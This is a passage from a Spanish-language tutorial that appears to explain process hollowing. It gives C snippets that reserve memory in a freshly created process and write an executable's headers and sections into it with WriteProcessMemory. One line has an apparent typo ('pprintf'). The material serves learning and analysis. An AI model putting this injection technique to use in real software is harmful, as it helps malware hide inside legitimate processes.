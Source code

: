 - `VirtualAllocEx` se usa para **reservar un bloque de memoria en el espacio del proceso recién creado (`pi.hProcess`).
    
- El tamaño de la memoria se toma directamente del campo `SizeOfImage` del archivo ejecutable que queremos mapear. Este valor indica cuánto ocupará el ejecutable cargado en memoria (cabeceras + secciones).

### 2.3 Escritura Manual de Cabeceras y Secciones del Ejecutable en el Proceso Remoto

#### 2.3.1 Escribir los encabezados del ejecutable en el proceso remoto

```c
if (!WriteProcessMemory(pi.hProcess, memReservada, buffer, nt->OptionalHeader.SizeOfHeaders, NULL)) {
    printf("[-] Error escribiendo headers\n");
    return 1;
}
printf("[+] Header escritos correctamente en memoria\n");
```

**Objetivo:** Copiar las cabeceras del ejecutable (cabecera DOS, NT y tabla de secciones) desde el ejecutable cargado en memoria (variable `buffer`) hacia el espacio reservado en el proceso remoto (variable `memReservada`).

- `buffer` contiene en memoria el ejecutable completo, que fue leído desde disco.
    
- `memReservada` es la dirección base asignada en el proceso remoto, obtenida con `VirtualAllocEx`.
    
- `SizeOfHeaders` es el tamaño total de las cabeceras, definido en el campo `OptionalHeader` del encabezado NT.
    


#### 2.3.2 Escribir las secciones del ejecutable en el proceso remoto

```c
for (int i = 0; i < nt->FileHeader.NumberOfSections; i++) {
    LPVOID destino = (LPVOID)((BYTE*)memReservada + secciones[i].VirtualAddress);
    LPVOID origen = buffer + secciones[i].PointerToRawData;
    SIZE_T tam = secciones[i].SizeOfRawData;

    if (!WriteProcessMemory(pi.hProcess, destino, origen, tam, NULL)) {
        printf("[-] Error escribiendo sección %lu\n", GetLastError());
        return 1;
    }

    pprintf("[+] Seccion: %s escrita correctamente | RawOffset: 0x%08X | VA: 0x%08X | Tamano: %Iu bytes | Origen: 0x%p | Destino: 0x%p\n", secciones[i].Name, secciones[i].PointerToRawData, secciones[i].VirtualAddress, tam, origen, destino);
}
```

**Explicación:**

